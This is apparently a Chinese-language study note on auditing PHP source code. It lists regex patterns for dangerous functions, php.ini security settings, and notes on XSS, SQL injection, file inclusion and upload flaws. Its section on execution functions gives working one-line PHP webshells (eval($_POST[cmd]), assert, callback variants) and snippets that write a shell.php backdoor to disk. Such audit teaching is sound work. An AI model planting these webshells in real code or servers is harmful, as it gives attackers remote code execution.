

PHP源码审计
========================================

概览
----------------------------------------
 |php1|

常用正则
----------------------------------------
::

	常用正则：
	$_SERVER|$_COOKIE|$_REQUEST|$_GET|$_POST 获取用户输入
	eval(|assert(|system( 命令执行
	require(|require_once(|include(|include_once( 文件包含
	file_get_contents(|file(|fopen(|highlight_file(|show_source(|unlink 文件读取，写入，删除
	simplexml_load_string XXE
	unserialize 反序列化漏洞

常见配置
----------------------------------------
- 配置文件
	+ php.ini
	+ .user.ini
- 相关配置
	+ 全局变量 ``register_globals = Off``
		::
	
			某些程序如osc需要启用全局变量，这个设置的作用是关闭自动注册全局变量，在设置为On时、
			php会将$POST,$GET,$COOKIE,$ENV,$SESSION数组中的$key=>$value直接注册为变量
			（$POST['username']就会被注册为$username）.
			
	+ 短标签 ``short_open_tag = On``
		::
		
			这个设置决定是否允许使用php代码开始标志的缩写形式（<? ?>）。如果禁用了，必须使用必
			须使用php代码开始标志的完整形式（<?php ?>）。这个指令也会影响到缩写形式<?=,它和
			<?echo等价。使用此缩写需要short_open_tag的值为On，从php5.4.0起，<?=总是可用的。
			（写shell的时候会判断标签如果有<?php?>就会拦截，如果开启了短标签就可以考虑用缩写）
	
	+ 安全模式 ``safe_mode = Off``
		::
		
			PHP的安全模式能够控制一些php中的函数，比如system，同时把很多文件操作函数进行了权限控制，
			也不允许某些关键文件的文件，比如/etc/passwd，如: safe_mode_exec_dir = /var/www/html，
			system和其他程序执行函数将拒绝启动不在此目录中的程序。
			但默认的php.ini是没有打开安全模式的（这个特性自php5.3.0起废弃并在php5.4.0起移除）
			
	+ 上传文件及目录权限 ``file_uploads = On ,upload_max_filesize = 8M``
		::
		
			文件上传临时目录: upload_tmp_dir =上传文件临时保存的目录，需要可写，如果不设置，
			则采用系统临时目录。（/tmp，C:WindowsTemp）
			
	+ 错误信息 ``display_error = On``
	+ 魔术引号 ``magic_quotes = On`` 
		::
		
			当magic_quotes为On所有的'(单引号)、"(双引号)、(反斜杆)、和NULL都被一个反斜杆自动转义.
		
	+ 远程文件
		::
		
			是否允许打开远程文件: allow_url_fopen = On
			默认封装协议提供用ftp和http协议来访问远程文件，一些扩展库例如zlib可能会注册更多的封装协议
			<?php echo file_get_contents("http://php.net"); ?>
			
			是否允许包含远程文件: allow_url_include = Off
			本选项激活允许include，include_once,require,require_once等函数使用url形式的fopen封装协议。
			简单来说就是可以包含远程文件。 <?php include("http://php.net"); ?>
			

执行函数总结
-----------------------------------------
- eval
	+ 函数把字符串按照PHP代码来计算
	+ 如常见的一句话后门程序：``<?php eval($_POST[cmd])?>``
- assert
	+ 与eval类似，字符串被assert当做PHP代码来执行
	+ 示例代码：``<?php //?cmd=phpinfo assert($_REQUEST[cmd]); ?>``
- reg_replace
	+ preg_replace函数原本是执行一个正则表达式的搜索和替换，但因为存在危险的/e修饰符，使preg_replace将$replacement参数当作PHP代码.
	+ ``<?php //?cmd=phpinfo @preg_replace("/abc/e",$_REQUEST['cmd'],"abcd"); ?>``
- create_function
	+ create_function主要用来创建匿名函数，如果没有严格对参数传递进行过滤，攻击者可以构造特殊字符串传递给create_function执行任意命令。
	+ ``<?php //?cmd=phpinfo; $func =create_function('',$_REQUEST['cmd']); $func; ?>``
- array_map
	+ array_map函数将用户自定义函数作用到数组中的每个值上，并返回用户自定义函数作用后的带有新值的数组。回调函数接受的参数数目应该和传递给 array_map函数的数组数目一致。
	+ ``<?php //?func=system&cmd=whoami $func=$GET['func']; $cmd=$GET['cmd']; $array[0]=$cmd; $new_array=array_map($func,$array); //print_r($new_array); ?>``
- call_user_func/call_user_func_array 
	+ call_user_func把第一个参数作为回调函数调用,其余参数是回调函数的参数。
	+ ``<?php //?cmd=phpinfo @call_user_func(assert,$_GET['cmd']); ?>``
	+ call_user_func_array调用回调函数，并把一个数组参数作为回调函数的参数.
	+ ``<?php //?cmd=phpinfo $cmd=$_GET['cmd']; $array[0]=$cmd; call_user_func_array("assert",$array); ?>``
- array_filter
	+ 依次将 array数组中的每个值传递到callback函数。如果 callback函数返回true，则array数组的当前值会被包含在返回的结果数组中。数组的键名保留不变。
	+ ``<?php //?func=system&cmd=whoami $cmd=$GET['cmd']; $array1=array($cmd); $func =$GET['func']; array_filter($array1,$func); ?>``
- usort、uasort
	+ usort通过用户自定义的比较函数对数组进行排序。
	+ uasort使用用户自定义的比较函数对数组中的值进行排序并保持索引关联。
- 文件操作函数
	+ file_put_contents函数把一个字符串写入文件中.
	+ ``<?php $test='<?php eval($_POST[cmd]);?>'; file_put_contents('test1.php',$test); ?>`` 
	+ ``<?php fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>'); ?>``
- 动态函数
	+ 函数由字符串拼接而成。
	+ ``<?php //?a=assert&b=phpinfo $GET['a']($GET['b']); ?>``

XSS漏洞
-----------------------------------------
- 反射型
	+ 反射型xss审计的时候基本的思路都一样，通过寻找可控没有过滤（或者可以绕过）的参数，通过echo等输出函数直接输出。寻找的一般思路就是寻找输出函数，再去根据函数寻找变量。一般的输出函数有这些：print , print_r , echo , printf , sprintf , die , var_dump ,var_export。
- 存储型
	+ 存储型xss会在数据库“中转”一下，主要审计sql语句update ,insert更新和插入。
- DOM
	+ 通过访问document.URL 或者document.location执行一些客户端逻辑的javascript代码。

SQL注入漏洞
-----------------------------------------
- 通过$_GET,$_POST等传参追踪数据库操作
- 通过select , delete , update,insert 数据库操作语句反追踪传参

代码执行审计
-----------------------------------------
- 代码执行注入就是 在php里面有些函数中输入的字符串参数会当做PHP代码执行。

命令执行审计
-----------------------------------------
- 命令执行就是可以执行系统命令（cmd）或者是应用指令（bash），这个漏洞也是因为传参过滤不严格导致的。
- php可执行命令的函数有这些：system();exec();shell_exec();passthru();pcntl_exec();popen();proc_open(); 

文件包含审计
-----------------------------------------
- 文件包含有这么两种：本地包含（LFI）和远程包含(RFI)。
- 四个包含函数：include();include_once();require();require_once()

文件上传审计
-----------------------------------------
- 函数move_uploaded_file();

